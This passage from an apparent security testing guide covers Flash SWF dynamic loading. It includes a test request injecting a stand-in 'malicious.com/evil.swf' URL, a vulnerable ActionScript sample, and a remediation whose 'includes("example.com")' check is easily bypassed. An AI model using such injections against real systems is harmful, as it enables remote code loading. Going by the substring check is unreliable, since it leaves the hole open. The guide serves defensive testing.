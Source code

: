 **Tip**: Document URL payloads and navigation behavior in a report.

### 5. Test Dynamic SWF Loading

**Objective**: Ensure dynamically loaded SWF files are not controlled by user inputs.

**Steps**:
1. Search for SWF loading:
   - Decompile the SWF and locate `Loader.load` or `URLLoader`.
2. Inject a malicious SWF URL:
   ```bash
   http "http://example.com/flash?swf=http://malicious.com/evil.swf"
   ```
3. Check for loading:
   - Monitor Network tab for requests to `malicious.com`.

**Example Secure Response**:
```actionscript
// Validated SWF source prevents loading
if (swfUrl.match(/^\/swf\/[a-zA-Z0-9]+\.swf$/)) {
  var loader:Loader = new Loader();
  loader.load(new URLRequest(swfUrl));
}
```
No request to `malicious.com`.

**Example Vulnerable Response**:
```actionscript
// Unvalidated source loads malicious SWF
var loader:Loader = new Loader();
loader.load(new URLRequest(swfUrl));
```
Network request to `malicious.com`.

**Remediation**:
- Validate SWF URLs:
  ```actionscript
  if (swfUrl.includes("example.com")) {
    loader.load(new URLRequest(swfUrl));
  }
  ```
- Use static SWF paths:
  ```actionscript
  loader.load(new URLRequest("/swf/trusted.swf"));
  ```

**Tip**: Save Network tab screenshots and decompiled ActionScript in a report.